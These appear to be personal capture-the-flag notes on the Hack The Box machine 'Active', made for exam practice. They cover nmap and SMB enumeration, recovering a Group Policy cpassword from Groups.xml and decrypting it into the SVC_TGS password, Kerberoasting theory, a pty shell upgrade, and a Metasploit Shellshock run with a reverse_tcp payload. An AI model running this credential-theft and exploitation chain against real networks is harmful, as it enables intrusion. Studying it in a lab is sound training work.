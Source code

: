 # active, flow

## Summary

+ the full nmap scan took 1666.20 seconds (27 minutes), in the exam, find web server first.
+ run detailed (re)scan on initial enum results with specific target in mind.

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 10.129.96.185
  # rename-tab
sudo vim /etc/hosts
```

> 53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
> 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos -> ldap open

+ an the kerberos server usually also has an open ldap and folder share service.

> 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

## dns-lookup

```sh
nslookup
> server 10.129.96.185
> 127.0.0.1
  # reverse dns
  # 1.0.0.127.in-addr.arpa  name = localhost.
> 10.129.96.185
  # no return
```

```sh
dnsrecon -d 10.129.96.185 -r 10.129.96.0/24
  # 5 seconds, no result
dnsrecon -d 10.129.96.185 -r 10.0.0.0/8
  # background, no result
```

## detailed enum with nmap

```sh
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -e 'default\|version' | grep 'smb'
  # locate -r use regex
  # the default scripts is  only a few
locate -r '\.nse$' | xargs grep -nw 'categories' | grep -v -e 'default\|version' | grep 'smb' | grep -e 'safe'
nmap --script-help '(smb* and safe) and not (default or version)'
nmap --script '(smb* and safe) and not (default or version)' -p 445 active.htb
  # 30s
nmap --script 'smb-enum-services' -p 445 active.htb -d
  # -d to debug -> the script does not support SMBv2
```

## try with smbclient

```sh
smbclient -L active.htb
  # -L list <host>
  # only folder 'Replication' accessible, READONLY.
```

```sh
smbmap -H active.htb
smbmap -R Replication -H active.htb
  # -R <dirName> Recursively list dirs and files.
smbmap -R Replication -H active.htb -A '.*' --depth 40
  # -A find files that match(regex), and auto download.
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf
  # [+] Match found! Downloading: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI
  # [+] Match found! Downloading: Replication\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf

## alternatively, use
## smb: \> recurse ON
## smb: \> prompt OFF
## smb: \> mget *

  # in which, the Groups.xml contains account info
  # cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... userName="active.htb\SVC_TGS"
```

+ ref: [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py)

```sh
gpp-decrypt <cpassword>
  # from MS doc, the AES key of cpassword is key 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
  # which is actually AES-256-CBC with IV '\x00' *16 
  # GPPstillStandingStrong2k18
```

## try the account

```sh
#! smbmap -H active.htb -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' -x 'net user'
  # [!] Authentication error on active.htb
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R --depth 40
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R Users --depth 40 -A 'user.txt'
```

## AD enum, impacket

+ ref: [impacket, github](https://github.com/SecureAuthCorp/impacket)

```sh
locate impacket
```

## AD flow revisit

+ the are only few flows basically. Lateral movement (user account -> Service Account || Local Admin) -> Domain Admin
  1. kerberoasting, SPN scan (request a TGS), crack weak TGS password (which version? which account? which hash?) for service account NTLM. Two points:
  2. First, the check of whether user could access(authority) a Service, is performed by the Service entity, not the DC. Hence any user could request any TGS.
  3. Second, by design, service entity trust TGS blindy(in theory only DC and the service entity knows the NTLM of the service account).

+ TODO psexec

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```

